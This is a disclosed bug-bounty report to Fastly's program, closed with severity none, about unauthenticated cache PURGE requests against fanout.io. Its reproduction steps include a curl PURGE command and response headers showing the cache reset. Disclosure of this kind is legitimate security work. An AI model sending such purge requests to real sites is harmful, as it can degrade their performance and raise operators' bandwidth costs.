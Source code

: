 # Cache purge requests are not authenticated

## Report Details
- **Report ID**: 1943117
- **URL**: https://hackerone.com/reports/1943117
- **State**: Closed
- **Severity**: none
- **Submitted**: 2023-04-12T00:36:50.237Z
- **Disclosed**: 2023-05-01T14:17:53.440Z

## Reporter
- **Username**: xerhakhd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fastly-vdp

## Vulnerability Information
## Summary:
Anyone can issue a PURGE request for any resource and invalidate your caches. That can lead to increased bandwidth costs but also potential Denial of Service attacks.

## Steps To Reproduce:

  1. Fetching the resource headers, we can see in the X-Cache that the resource was a HIT with X-Cache-Hits: 5:
Put the below command in the terminal (this is request):
# curl -s -D - https://fanout.io -o /dev/null
HTTP/2 200
server: nginx/1.14.0 (Ubuntu)
content-type: text/html; charset=utf-8
x-frame-options: DENY
x-content-type-options: nosniff
accept-ranges: bytes
date: Wed, 12 Apr 2023 00:05:08 GMT
via: 1.1 varnish
age: 1215
x-served-by: cache-maa10224-MAA
x-cache: HIT
x-cache-hits: 5
x-timer: S1681257908.308066,VS0,VE0
vary: Cookie
content-length: 20567

  2. Then put the below command to purge the cache as an unauthenticated user. And see the result, Status is OK means it successfully deletes the cache without authentication.
# curl -X PURGE https://fanout.io
{ "status": "ok", "id": "10234-1680248948-114138" }

  3. Now again fire the first command to see the x-cache-hits. See, the x-cache-hits is 1 now.
# curl -s -D - https://fanout.io -o /dev/null
HTTP/2 200
server: nginx/1.14.0 (Ubuntu)
content-type: text/html; charset=utf-8
x-frame-options: DENY
x-content-type-options: nosniff
accept-ranges: bytes
date: Wed, 12 Apr 2023 00:06:01 GMT
via: 1.1 varnish
age: 8
x-served-by: cache-maa10233-MAA
x-cache: HIT
x-cache-hits: 1
x-timer: S1681257962.998849,VS0,VE1
vary: Cookie
content-length: 20567


## Supporting Material/References:
Here is attached screenshots.

 1. {F2287583}
2. {F2287584}
3. {F2287585}

 Also I am putting a reference report link here.
https://hackerone.com/reports/154278

## Impact

This can lead to increased bandwidth costs and degraded application performance. Allowing anonymous users to purge cache could be used to maliciously degrade performance.

## Attachments
- cache_purge-1.JPG
- cache_purge-1.JPG
- cache_purge-2.JPG
- cache_purge-3.JPG
